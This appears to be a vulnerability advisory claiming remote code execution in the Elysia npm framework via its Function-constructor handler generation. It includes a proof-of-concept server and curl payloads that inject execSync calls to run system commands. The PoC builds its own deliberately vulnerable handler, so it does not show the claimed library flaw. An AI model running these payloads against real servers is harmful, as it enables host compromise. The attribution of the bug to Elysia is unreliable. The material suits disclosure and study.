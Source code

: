 # vuln-elysia-1.3.21-rce

## Summary

Elysia (npm) is vulnerable to **Remote Code Execution (RCE)** due to **unsafe dynamic code generation**.  
Through version **1.3.21 (latest tested)**, the framework constructs handler functions by interpolating strings directly into the JavaScript Function constructor (`Function(...)`).  
If attacker-controlled values flow into these strings (e.g., schema definitions, parser names, plugin-provided hooks), arbitrary JavaScript or OS command execution becomes possible.

- **Vulnerability Class:** Code Injection via Unsafe Dynamic Code Generation (CWE-94 / CWE-95)  
- **Severity:** High / Critical (CVSS ~8.8)  
- **Exploitability:** Any untrusted values that reach handler composition can lead to RCE.  

---

## Details

- **Package:** `elysia` (npm)  
- **Repository:** [github.com/elysiajs/elysia](https://github.com/elysiajs/elysia)  
- **Affected File:** [src/compose.ts](https://github.com/elysiajs/elysia/blob/main/src/compose.ts)
- **Affected Function(s):** `composeHandler`, `compile`  
- **Affected Versions:** ≤ 1.3.21 (latest tested)  
- **Root Cause:** Dynamic handler generation using the JavaScript Function constructor (`Function(...)`) with string concatenation.  

### Relevant code from `src/compose.ts`
```ts
// elysia/src/compose.ts (example excerpt)
const fn = Function('"use strict";\n' + fnLiteral)()
```

Here, `fnLiteral` is built from schema, hooks, or parser names.  
If these values include attacker-controlled strings, they are interpolated directly into executable JavaScript.

---

## Proof of Concept (PoC)

### Steps to Reproduce

#### 1. Environment Setup
```bash
sudo apt-get update && sudo apt-get install -y python3-venv
python3 -m venv venv
source venv/bin/activate

node -v || sudo apt-get install -y nodejs npm

mkdir elysia_poc && cd elysia_poc
npm init -y
npm install elysia@1.3.21
```

#### 2. Vulnerable Server (`server.js`)
```js
import { Elysia } from 'elysia'
import { createRequire } from 'module'
import http from 'http'

global.__REQ = createRequire(import.meta.url)

let userControlled = '""'

function buildHandler(injectedCode) {
  const fnLiteral = `
    return (function(c){
      c.body = ${injectedCode};
      return c;
    })
  `
  return Function('"use strict";\n' + fnLiteral)()
}

let handler = buildHandler(userControlled)

const app = new Elysia()
  .post('/config', async ({ request }) => {
    const payload = await request.text()
    userControlled = payload
    handler = buildHandler(userControlled)
    return { msg: 'config updated' }
  })
  .post('/register', ({ body }) => handler({ body }))

http.createServer(async (req, res) => {
  const url = `http://${req.headers.host}${req.url}`
  const body = req.method === 'GET' ? undefined : req
  const fetchReq = new Request(url, {
    method: req.method,
    headers: req.headers,
    body,
    duplex: "half"
  })

  try {
    const response = await app.fetch(fetchReq)
    res.writeHead(response.status, Object.fromEntries(response.headers))
    const buf = Buffer.from(await response.arrayBuffer())
    res.end(buf)
  } catch (err) {
    res.statusCode = 500
    res.end("Internal Server Error")
  }
}).listen(3000, () => {
  console.log("Listening on http://localhost:3000")
})
```

#### 3. Run the server
```bash
node server.js
```

#### 4. Inject malicious payload
```bash
curl -X POST http://localhost:3000/config   -H "Content-Type: text/plain"   --data '(function(){ const { execSync } = global.__REQ("child_process"); return execSync("whoami").toString() })()'
```

#### 5. Trigger vulnerable endpoint
```bash
curl -X POST http://localhost:3000/register   -H "Content-Type: application/json"   -d '{"username":"attacker"}'
```

#### Expected Output
```json
{"body":"[system_username]\n"}
```
*Note: Output varies depending on the server environment (e.g., "root", "ubuntu", "www-data", etc.)*

#### Arbitrary Command Example
```bash
curl -X POST http://localhost:3000/config   -H "Content-Type: text/plain"   --data '(function(){ const { execSync } = global.__REQ("child_process"); return execSync("id").toString() })()'

curl -X POST http://localhost:3000/register   -H "Content-Type: application/json"   -d '{"username":"attacker"}'
```

Expected:
```json
{"body":"uid=[user_id]([username]) gid=[group_id]([groupname]) groups=[group_info]\n"}
```
*Note: Actual output depends on server environment and user context*

---

## Attack Vector

This vulnerability becomes exploitable in **real-world deployments** when applications using Elysia load or accept **untrusted values** that are used in handler composition.

### Scenarios include:
1. **DB-driven config/schema**  
   Applications that fetch schema or parser options from a database, possibly controlled by tenants or admins. An attacker can inject malicious strings into DB records → Elysia interpolates them into `fnLiteral` → RCE.

2. **Plugin/Marketplace ecosystems**  
   Elysia supports plugins/hooks. If a 3rd-party plugin or marketplace allows arbitrary strings for parser names or hooks, a malicious plugin can inject payloads → code execution when routes are composed.

3. **Multi-tenant SaaS**  
   Tenant-provided configuration (e.g., custom form validators, parse hooks) can flow into handler code. One tenant’s config → dynamic code generation → affects the shared process → attacker achieves RCE and compromises other tenants.

4. **Admin UI with unsafe config**  
   Some apps let administrators define validation/parsing rules via an interface. If this input is not sanitized, attackers with limited access can escalate to RCE by injecting JavaScript into these rules.

**Key Point:**  
The vulnerability is not limited to contrived examples. Any path that takes user/tenant/plugin input and passes it to Elysia’s handler composition will directly translate into executable code.

---

## Impact

- **Remote Code Execution** in the context of the Node.js process  
- **Full application compromise** and potential host compromise  
- **Privilege escalation** in multi-tenant environments (e.g., low-privileged tenant → control entire server)  
- **Data exfiltration, sabotage, lateral movement** in cloud deployments  

**Vulnerability type:** Code Injection / Unsafe Dynamic Code Generation → RCE  
**Affected users:** Any Elysia application that allows untrusted configuration, schema, or plugin inputs to influence handler generation  

---

## Risk / Remarks

While I am not entirely sure whether maintainers will consider this eligible for a CVE, I believe it should be.  
The root cause (`Function(...)` with unsanitized strings in `src/compose.ts`) is a **well-known dangerous pattern** (CWE-94 / CWE-95).  
The PoC demonstrates practical arbitrary command execution.  
Severity should be rated **High/Critical**.

---

## Suggested Fix

- Remove reliance on `Function(...)` for runtime code generation.  
- Sanitize or strictly validate any input that can reach handler composition.  
- Restrict plugin/config/schema values to controlled enums rather than raw strings.  
- Consider static code generation or template-based approaches.  
- Add runtime guards to reject untrusted strings before composing handlers.

---
